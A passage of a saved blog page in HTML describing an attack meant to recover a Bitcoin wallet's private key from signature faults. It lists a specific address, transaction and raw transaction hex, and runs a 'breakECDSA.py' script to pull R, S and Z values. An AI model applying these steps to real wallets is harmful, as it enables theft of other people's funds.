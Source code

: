 

<hr class="wp-block-separator has-alpha-channel-opacity">



<blockquote class="wp-block-quote"><p><strong><a href="https://btc1.trezor.io/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o" target="_blank" rel="noreferrer noopener">1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o</a></strong></p><p><a href="https://btc1.trezor.io/tx/96c94c5b69c60ab4e3889b11fee54519fc6ff0f228f37554dd0dc766ab3909ef" target="_blank" rel="noreferrer noopener">https://btc1.trezor.io/tx/96c94c5b69c60ab4e3889b11fee54519fc6ff0f228f37554dd0dc766ab3909ef</a></p></blockquote>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-131-1024x141.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1214"></figure>



<pre class="wp-block-code"><code>RawTX = 010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-132-1024x302.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1217"></figure>
